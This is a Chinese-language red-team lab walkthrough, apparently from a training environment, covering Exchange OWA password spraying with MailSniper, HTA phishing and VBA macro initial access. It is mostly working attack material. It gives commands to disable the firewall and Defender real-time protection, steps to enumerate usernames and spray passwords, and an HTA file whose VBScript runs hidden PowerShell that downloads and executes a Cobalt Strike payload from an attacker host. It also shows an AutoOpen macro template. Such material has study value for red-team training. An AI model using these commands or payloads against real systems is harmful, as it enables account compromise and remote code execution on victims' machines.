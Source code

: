 # 哈希喷洒

使用工具：[MailSniper](https://github.com/dafthack/MailSniper)和[SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit)

**注意，下面操作必须先禁用windows Defender 的实时保护**

1. 关闭防火墙：
```NetSh Advfirewall set allprofiles state off```

关掉实时防护
```
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
```

引入MailSniper.ps1
```
PS C:\> ipmo C:\Tools\MailSniper\MailSniper.ps1
```

枚举NetBIOS 
```
PS C:\Users\Administrator> Invoke-DomainHarvestOWA -ExchHostname 10.10.15.100
[*] Harvesting domain name from the server at 10.10.15.100
The domain appears to be: CYBER or cyberbotic.io
```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658538796242.png)


从```https://cyberbotic.io```收集到一份用户名单
```
root@kali:~# cat names.txt
Bob Farmer
Isabel Yates
John King
Joyce Adams
```

根据上面的用户名单制作成一份各种名字的组合方式列表
```
root@kali:~# /opt/namemash.py names.txt >> possible-usernames.txt
root@kali:~# head -n 5 possible-usernames.txt
bobfarmer
farmerbob
bob.farmer
farmer.bob
farmerb
```
![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658538616187.png)


把用户名单从kali拷贝到啊windwos攻击机
```
 pscp root@kali:/root/possible-usernames.txt .
```

探测合法的用户名
```
 Invoke-UsernameHarvestOWA -ExchHostname 10.10.15.100 -Domain CYBER -UserList .\possible-usernames.txt -OutFile valid.txt
```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658539073418.png)


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658539231023.png)

合法的用户名是：```CYBER\iyates```


假设我们此时知道了一个密码，根据上面的合法用户名单，对密码进行喷洒
```
Invoke-PasswordSprayOWA -ExchHostname 10.10.15.100 -UserList .\valid.txt -Password Summer2021
```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658539331939.png)

# 网络钓鱼

一个hta文件样板
```
<html>
  <head>
    <title>Hello World</title>
  </head>
  <body>
    <h2>Hello World</h2>
    <p>This is an HTA...</p>
  </body>

  <script language="VBScript">
    Function Pwn()
      Set shell = CreateObject("wscript.Shell")
      shell.run "calc"
    End Function

    Pwn
  </script>
</html>
```


建立一个监听
![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658539559821.png)

建立一个hta，选择上面的监听

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658539710862.png)


生成payload：```Attacks > Web Drive-by > Scripted Web Delivery (S)```

(64位)
```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/a'))"
```

(32位)
```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"
```


把payload复制到hta里
```
<html>
  <head>
    <title>Hello World</title>
  </head>
  <body>
    <h2>Hello World</h2>
    <p>This is an HTA...</p>
  </body>

  <script language="VBScript">
    Function Pwn()
	  Set shell = CreateObject("wscript.Shell")

	  If shell.ExpandEnvironmentStrings("%PROCESSOR_ARCHITECTURE%") = "AMD64" Then
	    shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.5.120/a'))"""
	  Else
	    shell.run "C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.5.120/b'))"""
	  End If

	End Function

    Pwn
  </script>
</html>
```

尝试点击hta文件，获得shell
![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658540407567.png)

生成payload：``` Attacks > Web drive-by > Host File```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658541257705.png)

得到一个钓鱼链接：
```
http://10.10.5.120:80/id_rsa
```


# VBA宏

创建宏
```
View > Macros > Create
```

一个基本的宏代码
```
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run "calc"

End Sub
```

```
cscript.exe "%ProgramFiles%\Microsoft Office\Office16\ospp.vbs" /rearm
```



![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658542072298.png)

登录WKSTN-1 ，自动登录到bfarmer的账号，接受邮件，点击链接或者doc文件
![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658542667640.png)

CS返回一个Bacon
![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658542784090.png)

